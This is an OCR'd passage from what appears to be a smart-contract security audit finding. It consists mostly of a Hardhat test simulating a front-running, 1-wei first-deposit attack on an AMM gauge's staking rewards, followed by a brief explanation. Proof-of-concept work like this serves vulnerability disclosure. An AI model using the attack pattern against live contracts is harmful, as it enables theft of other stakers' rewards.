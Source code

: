             const unstake = async (to, amount) => {
                await updateStates()
                console.log(" ")
                // Balance before
                let balanceBefore = await this.ammgauge.balances(to.address);
                // Stake
                await this.ammgauge.connect(to).unstake(amount);
                expect(await this.ammgauge.balances(to.address)).to.be.eq(balanceBefore.sub(amount));
                await updateStates();
                console.log(" ")
            }
    
            // HERE IS WHERE THE SIMULATION IS PERFORMED
            let simulationTimes = 2;
            let withOneWeiDeposit = true;
    
            if (withOneWeiDeposit) {
                // Alice deposits first
                console.log("Alice Deposits 1wei")
                let firstUserDeposit = ethers.utils.parseEther("1");
                await stake(alice, 1);
            }
    
            for (let index = 1; index <= simulationTimes; index++) {
                console.log(" ")
                console.log(`Loop number ${index}`);
                console.log(" ")
    
                console.log("A day passes until Bob decides to deposit")
                await ethers.provider.send("evm_increaseTime", [1 * 24 * 60 * 60]); // 1 days
    
                console.log(" ")
                console.log("She scans that Bob is about to stake 10. So decides to frontrun him.")
                console.log("Alice Frontruns")
                let frontrunAmount = ethers.utils.parseEther("10");
                await stake(alice, frontrunAmount);
    
                console.log(" ")
                console.log("Bob stakes 10 tokens")
                await stake(bob, frontrunAmount)
    
                // A few days pass
                await ethers.provider.send("evm_increaseTime", [1 * 24 * 60 * 60]); // 2 days
                // The pool is checkpointed
                await this.ammgauge.poolCheckpoint();
                console.log("After 1 day the pool is checkpointed")
                await updateStates()
    
            }
        })

The simulation was both made for the attacked and non attacked situations. The values that are shown represent how the contract updates them (the `totalStaked` variable is 0 when first Alice calls the stake function after `_userCheckpoint()` rans)

#### [](#with-1wei-stake-attack)WITH 1WEI STAKE (ATTACK)
